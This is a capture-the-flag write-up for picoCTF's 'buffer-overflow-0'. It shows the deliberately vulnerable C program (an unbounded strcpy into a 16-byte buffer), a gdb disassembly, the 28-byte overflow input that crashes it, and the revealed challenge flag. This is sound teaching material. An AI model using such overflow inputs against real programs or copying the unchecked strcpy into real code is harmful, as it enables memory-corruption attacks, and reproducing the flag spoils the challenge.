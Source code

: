 # buffer-overflow-0 (pwn, 150pts)

> Let's start off simple, can you overflow the right buffer in this [program](./assets/vuln) to get the flag?

You're given the binary and the following C code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[16];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("Thanks! Received: %s", argv[1]);
  }
  else
    printf("This program takes 1 argument.\n");
  return 0;
}

```

Running the binary (after creating `flag.txt`), we see that the program simply outputs the first argument:

```
$ echo "picoCTF{flag}" > flag.txt
$ ./vuln test
Thanks! Received: test
```

Looking into the C code, we can see that when a segmentation fault occurs, the `sigsegv_handler` function is executed
`signal(SIGSEGV, sigsegv_handler);`, which will output the flag.  We therefore need to cause a segfault in order to get
the flag.

The only user input the program uses is the first command line argument passed to the program (`argv[1]`), which it
copies into a 16-character buffer `buf[16]`.  [`strcpy`](http://www.cplusplus.com/reference/cstring/strcpy/) doesn't do
any bounds checks, so if we pass in more than 16 characters, we'll be overriding memory that we shouldn't have access
to.

When we enter the `vuln` function and allocate space for the 16-byte char array, the stack looks like this (addresses
simplified):

```
0x0000000 start of space allocated for the "buf" char array
0x0000004 
0x0000008 
0x000000c 
0x0000010 
0x0000014 end of space allocated for the "buf" char array
0x0000018 saved base pointer (ebp)
0x000001c return address
```

You'd expect entering more than 16 bytes would start to overwrite memory (e.g. the saved base pointer), but this isn't
the case due to stack alignment - the default in gcc is `2^4 = 16 bytes`, which means the stack must be aligned on a
16-byte boundary before every `call` instruction.  You can confirm this using [`gdb`](https://www.gnu.org/software/gdb/)
to disassemble the `vuln` function:

```
$ gdb vuln
gef➤  disassemble vuln
Dump of assembler code for function vuln:
   0x08048667 <+0>:	push   ebp
   0x08048668 <+1>:	mov    ebp,esp
   0x0804866a <+3>:	sub    esp,0x18 # space allocated for char array - 24 bytes?!
   0x0804866d <+6>:	sub    esp,0x8
   0x08048670 <+9>:	push   DWORD PTR [ebp+0x8]
   0x08048673 <+12>:	lea    eax,[ebp-0x18]
   0x08048676 <+15>:	push   eax
   0x08048677 <+16>:	call   0x80484b0 <strcpy@plt>
   0x0804867c <+21>:	add    esp,0x10
   0x0804867f <+24>:	nop
   0x08048680 <+25>:	leave  
   0x08048681 <+26>:	ret    
End of assembler dump.
```

We therefore need to pass in at least 24 characters to the program to overwrite memory and hopefully trigger a
segmentation fault.  We can do this easily by leveraging Python:

```
$ ./vuln $(python2 -c "print 'A'*24")
Segmentation fault (core dumped)
```

Interestingly, this didn't cause the segfault handler to execute (I'm not sure why - open a pull request if you do!).
Try overwriting the return address by adding another 4 characters:

```
$ ./vuln $(python2 -c "print 'A'*28")
picoCTF{flag}
```

We can now run the same command on the server to retrieve the real flag:

```
$ ./vuln $(python2 -c "print 'A'*28")
picoCTF{ov3rfl0ws_ar3nt_that_bad_2d11f6cd}
```
